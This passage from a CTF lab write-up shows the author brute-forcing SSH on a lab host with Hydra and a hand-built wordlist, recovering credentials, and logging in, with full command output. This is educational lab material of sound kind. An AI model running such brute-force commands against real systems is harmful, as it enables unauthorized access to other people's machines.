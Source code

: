 Then came Day 2, I looked this challenge up and gave it a try. Made a wordlist of 130 words with manual scraping from site, just copy paste stuff and finally appending 123 at the end.

Running `Hydra` on port 420, we get the juicy stuff.

```jsx
┌──(abu㉿Abuntu)-[~/Documents/CTF]
└─$ hydra -l aalu -P wordlist.txt ssh://10.10.167.114:420
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-05 06:25:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 139 login tries (l:1/p:139), ~9 tries per task
[DATA] attacking ssh://10.10.167.114:420/
[420][ssh] host: 10.10.167.114   login: aalu   password: protection123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-05 06:25:21
```

Boom, `login: aalu   password: protection123`

Go ahead and connect the the SSH machine.

```jsx
┌──(abu㉿Abuntu)-[~/Documents/CTF]
└─$ ssh aalu@10.10.167.114 -p 420
The authenticity of host '[10.10.167.114]:420 ([10.10.167.114]:420)' can't be established.
ED25519 key fingerprint is SHA256:/YC43QKFEmOPxmRMGDct9fvtDSTz9UwK0YJNRNLjh2U.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.167.114]:420' (ED25519) to the list of known hosts.
aalu@10.10.167.114's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 05 Jul 2024 01:30:06 PM UTC

  System load:  0.0               Processes:             111
  Usage of /:   57.7% of 8.03GB   Users logged in:       0
  Memory usage: 27%               IPv4 address for eth0: 10.10.167.114
  Swap usage:   0%

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

```